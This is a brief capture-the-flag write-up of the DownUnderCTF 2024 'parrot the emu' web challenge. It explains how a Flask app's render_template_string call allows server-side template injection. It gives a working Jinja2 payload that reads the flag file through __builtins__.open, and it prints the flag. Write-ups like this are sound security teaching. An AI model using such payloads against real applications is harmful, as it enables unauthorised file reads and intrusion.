


> Original Writeup on [seall.dev](https://seall.dev/posts/downunderctf2024#parrot-the-emu)

We are given web source and an instance. The website reflects what you type:



Looking in the source code is something of interest:
```python
...
    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)
...
```

`render_template_string` is generally dangerous with unvalidated user input as it's vulnerable to SSTI, as this is Python, Jinja2 SSTI is quite a good start.

I first tried the payload `{{7*7}}` and the parrot responds with `49`, perfect!

Now we need to try to read the `flag` file, I try various payloads but find this one works: `{{ get_flashed_messages.__globals__.__builtins__.open("./flag").read() }}`.



Flag: `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`